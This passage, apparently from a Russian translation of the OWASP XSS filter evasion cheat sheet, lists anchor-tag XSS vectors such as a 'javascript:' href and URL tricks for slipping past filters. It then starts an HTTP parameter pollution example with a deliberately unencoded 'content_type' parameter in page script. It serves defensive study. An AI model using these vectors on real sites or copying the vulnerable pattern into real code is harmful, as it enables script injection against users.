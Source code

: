 В сочетании с указанным выше URL-адресом удаление `www.` сэкономит дополнительные 4 байта, а общая экономия составит 9 байт для серверов, которые настроили это должным образом:

```html
<A HREF="http://google.com/">XSS</A>
```

Дополнительная точка для абсолютного DNS:

```html
<A HREF="http://www.google.com./">XSS</A>
```

#### Расположение ссылки на JavaScript

```html
<A HREF="javascript:document.location='http://www.google.com/'">XSS</A>
```

#### Замена содержимого в качестве вектора атаки


Предполагая, что `http://www.google.com/` программно заменено на ничто. Аналогичный вектор атаки был использован против нескольких отдельных XSS-фильтров реального мира с использованием самого фильтра преобразования (вот пример), чтобы помочь создать вектор атаки `java&\#x09;script:`, который был преобразован в `java	script:`, который отображается в IE:


```html
<A HREF="http://www.google.com/ogle.com/">XSS</A>
```

### Помощь XSS в борьбе с загрязнением параметров HTTP

Если процесс обмена контентом на веб-сайте реализован так, как показано ниже, эта атака сработает. Существует страница `Content`, которая содержит некоторый контент, предоставленный пользователями, и на этой странице также есть ссылка на страницу `Share (Поделиться)` , которая позволяет пользователю выбрать свою любимую платформу для обмена в социальных сетях, чтобы поделиться им. Разработчики закодировали параметр `title` в HTML на странице `Content` для защиты от XSS, но по некоторым причинам они не закодировали этот параметр в URL, чтобы предотвратить загрязнение параметров HTTP. Наконец, они решили, что, поскольку значение `content_type` является константой и всегда будет целым числом, они не кодировали и не проверяли `content_type` на странице `Share (Поделиться)`.

#### Исходный код страницы с контентом

```html
a href="/Share?content_type=1&title=<%=Encode.forHtmlAttribute(untrusted content title)%>">Share</a>
```

#### Исходный код страницы "Поделиться"

```js
<script>
var contentType = <%=Request.getParameter("content_type")%>;
var title = "<%=Encode.forJavaScript(request.getParameter("title"))%>";
...
//возможно, здесь содержится некоторое пользовательское соглашение и логика отправки на сервер
...
</script>
```

